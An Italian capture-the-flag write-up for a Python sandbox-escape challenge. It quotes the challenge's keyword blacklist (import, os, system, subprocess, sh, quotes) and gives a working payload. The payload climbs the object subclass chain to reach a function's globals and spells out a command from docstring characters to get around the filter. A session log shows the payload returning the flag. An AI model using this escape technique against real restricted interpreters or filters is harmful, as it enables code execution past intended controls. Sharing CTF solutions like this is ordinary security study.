

# Sandbox-v2.py

### Challenge:
##### Se per qualche motivo sei riuscito ad evadere la sandbox precedente, sicuramente non riuscirai con questa, stavolta non hai nemmeno i builtins di python!.

##### Puoi collegarti al servizio remoto con:
##### ```nc sandbox_v2.challs.olicyber.it 35004```

##### Files: [sandbox-v2.py](sandbox-v2.py)

### Solution:
Challenge simile alla precedente, blacklist estesa ed abbiamo solo help come builtin:

```python
# just safe builtins
safe_builtins = {
	'help': help,
}
locals = {'__builtins__': safe_builtins}

blacklist = ['import', 'os', 'system', 'subproces', 'sh', 'flag', '"', '\'',]
```
Risolto questa challenge 10 minuti dopo la fine del mirror :(

```py
>>> ().__doc__
"Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."
>>> ().__doc__[1]
'u'
```

Concateniamo le varie lettere di ```().__doc__``` per bypassare la blacklist sulle stringhe.
Invece per bypassare il non avere builtins facciamo [stregoneria nera](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes).

Payload finale:
```py
(1).__class__.__base__.__subclasses__()[137].__init__.__globals__[(1).__class__.__base__.__subclasses__()[38]((1).__class__.__base__.__subclasses__()[137].__init__.__globals__.keys())[47]](().__doc__[113]+().__doc__[188]+().__doc__[197]+().__doc__[196]+().__doc__[170]+().__doc__[193]+().__doc__[188]+().__doc__[178])
```

```bash
$ nc sandbox_v2.challs.olicyber.it 35004
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
(RestrictedConsole)
>>> (1).__class__.__base__.__subclasses__()[137].__init__.__globals__[(1).__class__.__base__.__subclasses__()[38]((1).__class__.__base__.__subclasses__()[137].__init__.__globals__.keys())[47]](().__doc__[113]+().__doc__[188]+().__doc__[197]+().__doc__[196]+().__doc__[170]+().__doc__[193]+().__doc__[188]+().__doc__[178])
flag{Up_4nd_d0wn_the_1nheri7anc3_ch41n!!}
```

Flag: ```flag{Up_4nd_d0wn_the_1nheri7anc3_ch41n!!}```
